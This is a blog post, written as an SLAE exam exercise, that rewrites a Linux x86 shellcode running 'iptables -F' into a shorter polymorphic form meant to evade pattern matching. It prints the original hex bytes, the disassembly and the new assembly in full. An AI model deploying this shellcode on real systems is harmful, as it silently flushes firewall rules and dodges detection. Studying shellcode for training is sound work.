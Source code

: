 ```yaml
---
layout: post
title: SLAE 6.2 - Shell-Storm Polymorphism - iptables -F
date:   2019-03-05
categories: [SLAE, Assembly]
---
```


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

The sixth question for the SLAE exam is to create polymorphic versions of 3 shellcodes from Shell-Storm to attempt to beat pattern matching, this is part 2 of 3 for this question.  The requirements are:
* Select a linux/x86 shellcode from Shell-Storm.org
* UThe polymorphic versions cannot be larger than 150% of the original shellcode
* Bonus points for making it shorter in length

The version that I created from this post was submitted to and accepted by exploit-db.com.  The URL is:
[iptables -f shellcode](https://www.exploit-db.com/shellcodes/46491)


The 2nd piece of shellcode we will try to create a polymorphic version of will be:
[http://shell-storm.org/shellcode/files/shellcode-361.php](http://shell-storm.org/shellcode/files/shellcode-361.php)

The original length is 58 bytes, meaning we have up to 87 bytes maximum to fit in to the exam requirements (no more than 150%).

Let's take a look at the original shellcode and put it through ndisasm just to be sure it does what it claims.
```
jmp	short	callme
main:
	pop	esi
	xor	eax,eax
	mov byte [esi+14],al
	mov byte [esi+17],al
	mov long [esi+18],esi
	lea	 ebx,[esi+15]
	mov long [esi+22],ebx
	mov long [esi+26],eax
	mov 	al,0x0b
	mov	ebx,esi
	lea	ecx,[esi+18]
	lea	edx,[esi+26]
	int	0x80
	

callme:
	call	main
	db '/sbin/iptables#-F#'
```
```
echo -ne '\xeb\x21\x5e\x31\xc0\x88\x46\x0e\x88\x46\x11\x89\x76\x12\x8d\x5e\x0f\x89\x5e\x16\x89\x46\x1a\xb0\x0b\x89\xf3\x8d\x4e\x12\x8d\x56\x1a\xcd\x80\xe8\xda\xff\xff\xff\x2f\x73\x62\x69\x6e\x2f\x69\x70\x74\x61\x62\x6c\x65\x73\x23\x2d\x46\x23' | ndisasm -u -
00000000  EB21              jmp short 0x23
00000002  5E                pop esi
00000003  31C0              xor eax,eax
00000005  88460E            mov [esi+0xe],al
00000008  884611            mov [esi+0x11],al
0000000B  897612            mov [esi+0x12],esi
0000000E  8D5E0F            lea ebx,[esi+0xf]
00000011  895E16            mov [esi+0x16],ebx
00000014  89461A            mov [esi+0x1a],eax
00000017  B00B              mov al,0xb
00000019  89F3              mov ebx,esi
0000001B  8D4E12            lea ecx,[esi+0x12]
0000001E  8D561A            lea edx,[esi+0x1a]
00000021  CD80              int 0x80
00000023  E8DAFFFFFF        call dword 0x2
00000028  2F                das
00000029  7362              jnc 0x8d
0000002B  696E2F69707461    imul ebp,[esi+0x2f],dword 0x61747069
00000032  626C6573          bound ebp,[ebp+0x73]
00000036  23                db 0x23
00000037  2D                db 0x2d
00000038  46                inc esi
00000039  23                db 0x23

```
There is a jump-call-pop to get the string that is used. The #'s are replaced with nulls.  It looks like the strings are then copied to a location after the first string for the args struct as well.  Let's start working on a polymorphic version.

It looks like we can greatly reduce this shellcode if we get rid of all the mov's that copy the string to another location.  We can then just use our already saved reference to the string.

We can use the same technique to store the iptables string in the proper register, jmp-call-pop into EBX.
Then we can zero out EDX with cdq and move a null byte into the '#' location.
```nasm
global _start

section .text

_start:
  jmp short get
code:
  pop ebx
  cdq
  mov [ebx+0xe], dl
get:
  call code
  file: db "/sbin/iptables#-F"
```
Next, we set up the args struct.  The original shellcode copies the string to a location after the original and loads its address to ECX.  It then loads the address of an already used NULL byte in to EDX.
We can just skip all these steps and use our original string.  I will push the addresses to the stack, then move the stack pointer in to the ecx register.  Our edx is already 0'd out from earlier as well.

This is using the same strategy that a normal stack based execve call would use combined with the jmp-call-pop string.  Since we already have addresses stored in registers, it makes sense to do this and greatly reduces our shellcode length.

Also note that in the string variable 'file' above, that we have removed the second '#'.  Our strategy pushes a null byte to the stack before the string address instead of replacing another '#' with a null.  Our code is currently as follows:
```nasm
lea eax, [ebx+0xf]  ; get address of '-F'
push edx            ; null terminate the struct
push eax            ; push -F
push ebx            ; push /sbin/iptables
mov ecx, esp        ; address stored as argument
```
The last steps are to move 0xb into EAX and interrupt (int 0x80).  We can use EDX since it is already null to mov into EAX just for a little variation.  Then mov 0xb into AL and make our syscall.
```nasm
mov eax, edx
mov al, 0xb
int 0x80
```
Let's build it and run it.  The objdump seems to be missing a few bytes in the string from /sbin/iptables.   I decided to manually insert the 'sb' from sbin and the 'a' from iptables, then it worked as expected.  This may have been an issue with the objdump command that I was using from the course video.  This is mentioned in one of the videos and quickly touches on why it happens.  It was mentioned that one of the cut command options can cause problems if the dump has large combinations of opcodes in 1 line.  I went ahead and inserted the bytes on my own but may go back to see if changing the command a bit will get it to work at another time.

The final product has reduced the shellcode by 26%! Let's compare the shellcode side by side.
```nasm
jmp short 0x23                                jmp short 0x15
pop esi                                       pop ebx
xor eax,eax                                   cdq
mov [esi+0xe],al                              mov [ebx+0xe], dl
mov [esi+0x11],al                             lea eax, [ebx+0xf]
mov [esi+0x12],esi                            push edx
lea ebx,[esi+0xf]                             push eax
mov [esi+0x16],ebx                            push ebx
mov [esi+0x1a],eax                            mov ecx, esp
mov al,0xb                                    mov eax, edx
                                              mov al, 0xb
mov ebx,esi                                   
lea ecx,[esi+0x12]                            
lea edx,[esi+0x1a]
int 0x80                                      int 0x80
call dword 0x2                                call dword 0x2
das                                           das
jnc 0x8d                                      jnc 0x7f
imul ebp,[esi+0x2f],dword 0x61747069          imul ebp,[esi+0x2f],dword 0x61747069
bound ebp,[ebp+0x73]                          bound ebp,[ebp+0x73]
db 0x23                                       db 0x23
db 0x2d                                       db 0x2d
inc esi                                       inc esi
db 0x23
```

With the big reduction in size, I decided to check on exploit-db for any similar shellcode with equal or shorter length.  It turns out that there is only 1 other shellcode that was on there with the same length (none shorter).  The already published shellcode uses a full stack approach so I submitted the shellcode in the hopes that it will get accepted, which it did!  The link is above at the top of this post.

